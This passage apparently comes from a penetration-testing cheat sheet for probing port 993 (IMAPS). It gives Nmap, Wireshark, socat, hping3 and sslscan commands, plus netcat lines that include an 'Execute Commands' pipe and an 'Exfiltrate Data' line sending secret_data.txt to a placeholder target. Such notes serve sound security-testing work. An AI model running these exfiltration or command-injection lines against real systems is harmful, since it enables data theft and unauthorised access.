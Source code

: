 *   **Wireshark Packet Capture:**

    ```bash
    wireshark -i <interface> -f "tcp port 993"
    ```

#### \[\[Nmap]]

*   **Basic Nmap Scan:** Scan target on specified port to verify if service is on.

    ```bash
    nmap <target_ip> -p 993
    ```

#### \[\[NetCat]]

*   **Netcat TCP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 993
    ```
*   **Netcat UDP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 993 -u
    ```
*   **Execute Commands:** Execute commands on target.

    ```bash
    echo "<command>" | nc <target_ip> 993
    ```
*   **Exfiltrate Data:** Exfiltrate data over specified port.

    ```bash
    nc <target_ip> 993 < secret_data.txt
    ```

#### \[\[SoCat Cheat Sheet]]

*   **SoCat TCP Connect:** Simple tests to verify port service is running and responding.

    ```bash
    socat - TCP:<target_ip>:993
    ```

#### \[\[HPing3 Cheat Sheet]]

*   **Send Packet:** Send TCP packet to the target service. Use `-2` to send UDP packet.

    ```bash
    hping3 <target_ip> -p 993
    ```

#### \[\[SSLScan]]

*   **Scan Target:** Detailed analysis of an HTTPS service’s SSL/TLS configuration.

    ```bash
    sslscan <target_ip>:993
    ```
